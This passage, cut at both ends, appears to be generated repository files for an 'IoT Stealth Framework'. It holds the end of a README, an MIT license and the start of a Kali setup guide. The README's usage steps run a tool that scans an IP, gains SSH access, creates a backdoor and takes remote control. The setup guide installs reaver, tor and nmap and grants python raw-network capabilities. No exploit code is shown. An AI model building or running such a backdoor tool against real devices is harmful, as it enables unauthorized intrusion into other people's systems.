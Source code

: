 2. Scan vulnerabilities:
```bash
python ispf.py scan 192.168.1.105
```
3. Gain access:
```bash
python ispf.py access 192.168.1.105 -m ssh
```
4. Create backdoor:
```bash
python ispf.py backdoor ssh
```
5. Remote control:
```bash
python ispf.py control
```
## Documentation
- [Setup Guide](docs/SETUP.md)
- [Legal Disclaimer](docs/LEGAL_DISCLAIMER.md)
## Contributing
Contributions are welcome! Please read our [contribution guidelines](CONTRIBUTING.md) before submitting PRs.
## License
This project is licensed under the MIT License - see [LICENSE](LICENSE) for details.
```
### 4. `LICENSE` (MIT License)
```text
MIT License
Copyright (c) 2023 IoT Stealth Framework Project
Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:
The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```
### 5. `docs/SETUP.md`
````markdown
# Setup Guide
## Kali Linux Installation
```bash
# Install dependencies
sudo apt update
sudo apt install -y bluetooth reaver dnsmasq tor nmap
# Set capabilities
sudo setcap cap_net_raw+eip $(readlink -f $(which python3))
sudo setcap cap_net_admin+eip $(readlink -f $(which python3))
# Start services
sudo systemctl start bluetooth
sudo systemctl start tor
```
## Configuration
1. Edit network interface in `configs/device_profiles.json`:
```json
````
